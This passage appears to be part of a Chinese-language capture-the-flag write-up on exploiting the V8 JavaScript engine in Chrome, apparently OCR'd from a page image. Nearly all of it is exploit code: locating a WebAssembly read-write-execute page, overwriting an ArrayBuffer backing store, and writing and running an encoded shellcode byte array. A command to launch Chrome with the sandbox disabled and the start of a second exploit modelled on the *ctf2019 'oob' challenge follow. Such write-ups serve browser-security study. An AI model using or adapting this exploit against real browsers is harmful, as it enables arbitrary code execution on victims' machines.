 ```html
        rwx_page_index = i+1;
        break;
    }
}

console.log('[*]rwx_page_index:',hex((rwx_page_index)));
var wasm_instance_addr = f2i(arr[rwx_page_index]) - 1n;
console.log('[*]wasm_instance_addr:',hex((wasm_instance_addr)));
var rwx_page_addr = arb_read(wasm_instance_addr+0xe8n);

console.log('[*]rwx_page_addr:',hex((rwx_page_addr)));

const shellcode = [72, 49, 201, 72, 129, 233, 247, 255, 255, 255, 72, 141, 5, 239, 255, 255, 255, 72, 187, 124, 199, 145, 218, 201, 186, 175, 93, 72, 49, 88, 39, 72, 45, 248, 255, 255, 255, 226, 244, 22, 252, 201, 67, 129, 1, 128, 63, 21, 169, 190, 169, 161, 186, 252, 21, 245, 32, 249, 247, 170, 186, 175, 21, 245, 33, 195, 50, 211, 186, 175, 93, 25, 191, 225, 181, 187, 206, 143, 25, 53, 148, 193, 150, 136, 227, 146, 103, 76, 233, 161, 225, 177, 217, 206, 49, 31, 199, 199, 141, 129, 51, 73, 82, 121, 199, 145, 218, 201, 186, 175, 93];
var wasm_instance_addr = f2i(arr[0xbb+3])-1n;
arr[back_store_index] = i2f(rwx_page_addr);//set back_store

for(let i=0;i<shellcode.length;i++)
{
    dataview.setUint32(i,shellcode[i],true);
}

f();

</script>
```

执行命令时要加上`--no-sandbox`

```bash
chrome/chrome --no-sandbox /mnt/hgfs/Desktop/exp.html
```



由于之前正好复现了*ctf2019的oob，便按照该题利用方法写了一份exp

```html
<script>
var buf = new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var bigUint64 = new BigUint64Array(buf);
var Uint32 = new Int32Array(buf);

function f2i(f)
{
    float64[0] = f;
    return bigUint64[0];
}

function i2f(i)
{
    bigUint64[0] = i;
    return float64[0];
}

function hex(i){
    return '0x' + i.toString(16).padStart(16, '0');
}

var float_arr = [1.1, 2.2, 3.3, 4.4, 5.5];//
var obj_arr = [float_arr, float_arr, float_arr, float_arr];
```